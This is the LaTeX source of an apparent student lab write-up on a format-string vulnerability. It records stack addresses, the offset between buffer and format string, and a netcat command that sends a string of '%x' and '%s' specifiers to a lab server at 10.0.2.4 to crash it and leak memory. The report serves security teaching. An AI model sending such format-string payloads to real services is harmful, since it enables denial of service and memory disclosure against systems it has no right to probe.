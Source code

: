 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{figure}[ht!]
\centering
\includegraphics[width=90mm]{"Capture2.png"}\\

\includegraphics[width=90mm]{"Capture3.png"} \\

\includegraphics[width=90mm]{"Capture4.png"} \\

\includegraphics[width=90mm]{"Capture5.png"} \\

\end{figure}

	1. Format String: by following the screenshot of the server displaying 414141 found in problem 3, the address of the format string is 80 * 4 bytes above the buffer = bffff200.

	2. Return address: EBP + 4 bytes = bffff01c

	3. Buffer address: 0xbffff0c0 \\ 

What is the distance between the locations marked by 1 and 3?\\
The distance between the two locations is 4 bytes * 80, or 320 bytes, shown in the middle two figures displayed above.   \\ \\ \\

. \\
	String to make the server crash: 
\begin{verbatim}
echo"AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s" | nc -u 10.0.2.4 9090

\end{verbatim}
This is shown by how the server responds (top) to the client sending that string (middle), and the server sending the string 41414141 in the third figure, which indicates the format string address is found.  This occurs when the last client sends x instead of s for its last character.
 
\end{document}
